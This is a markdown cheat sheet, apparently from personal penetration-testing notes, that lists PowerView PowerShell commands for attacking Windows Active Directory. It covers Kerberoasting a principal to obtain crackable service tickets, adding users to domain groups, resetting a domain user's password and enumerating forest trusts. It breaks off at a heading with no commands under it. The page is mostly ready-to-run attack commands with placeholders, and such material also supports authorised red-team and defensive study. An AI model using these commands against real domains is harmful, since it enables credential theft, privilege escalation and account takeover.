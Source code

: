 
## Kerberoast a Principal

```powershell
Invoke-Kerberoast -Identity $PRINCIPAL_TO_KERBEROAST
```

---

## Add a User to a Domain Group

```powershell
Add-DomainGroupMember -Identity $GROUP_NAME -Members $PRINCIPAL_TO_ADD [-Credential $CREDENTIAL]
```

---

## Check if a User is in a Domain Group

```powershell
Get-DomainGroupMember -Identity $GROUP_NAME [-Credential $CREDENTIAL] | ? {$_.MemberName -eq "$USERNAME"}
```

---

## Change a Domain User's Password

```powershell
Set-DomainUserPassword -Identity $DOMAIN_USER_TO_CHANGE -AccountPassword $PASSWORD [-Credential $CREDENTIAL]
```

- `$PASSWORD` is a `SecureString`
- `$CREDENTIAL` is a [[powershell#Create a Credential PSCredential Object|PSCredential]]

---

## Enumerate Internal & External Trusts of all Domains in the Current Forest

This enumeration method leverages the [[global-catalog|Global Catalog]] and as a result, only requires network traffic between the executing machine and the current domain's primary domain controller.

```powershell
Get-DomainTrust -SearchBase "GC://$($ENV:USERDNSDOMAIN)"
```

---

## Recursively Enumerate Trusts of all Domains of the Current Forest and all Transitive Domains
